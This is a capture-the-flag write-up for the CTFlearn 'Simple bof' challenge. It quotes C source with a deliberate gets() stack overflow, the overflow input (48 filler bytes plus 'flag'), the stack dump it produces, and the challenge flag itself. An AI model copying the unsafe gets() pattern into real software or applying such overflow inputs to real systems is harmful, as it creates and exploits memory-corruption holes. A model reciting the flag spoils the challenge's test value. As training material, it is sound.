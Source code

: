 <title>Simple bof- ctflearn</title>

<!DOCTYPE html>
<html>

<body>
    <h1>Simple bof- ctflearn</h1>

    <h2>Challenge Description</h2>
    <p> Want to learn the hacker's secret? Try to smash this buffer!

You need guidance? Look no further than to <a href="https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w">Mr. Liveoverflow</a>. He puts out nice videos you should look if you haven't already

nc thekidofarcrania.com 35235
<a href="https://cybersecctf.github.io/blog/2024/practice/ctflearn/simplebuf/bof.c">bof.c</a>

 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        we open bof.c and see is a bufferoverflow in
       <pre>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.     and fill 1 with 32 1 for this                                          
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.and fill i with 16 1 here and then flag for secret

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call! 

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
/*
Input some text: 111111111111111111111111111111111111111111111111flag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret                          
0xffdb72c8 | 31 31 31 31 31 31 31 31 |
0xffdb72d0 | 31 31 31 31 31 31 31 31 |
0xffdb72d8 | 31 31 31 31 31 31 31 31 |
0xffdb72e0 | 31 31 31 31 31 31 31 31 |
0xffdb72e8 | 31 31 31 31 31 31 31 31 |
0xffdb72f0 | 31 31 31 31 31 31 31 31 |
0xffdb72f8 | 66 6c 61 67 00 ff ff ff |
0xffdb7300 | c0 85 fa f7 84 4f 57 56 |
0xffdb7308 | 18 73 db ff 11 2b 57 56 |
0xffdb7310 | 30 73 db ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
*/
</pre>
    we add flag in end of 48 1(32*"1"+16*"1"+"flag") or any char because secret comming after them and should be<pre>  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } </pre>
that 0x67616c66 is hex of flag in reverse(ord('f')=102,hex(102)
'0x66') )and secret should be flag for reach print_flag()  and print flag. 
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">CTFlearn{buffer_0verflows_4re_c00l!}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work on  binary overflow and  binary exploitation</p>
</body>
</html>


 
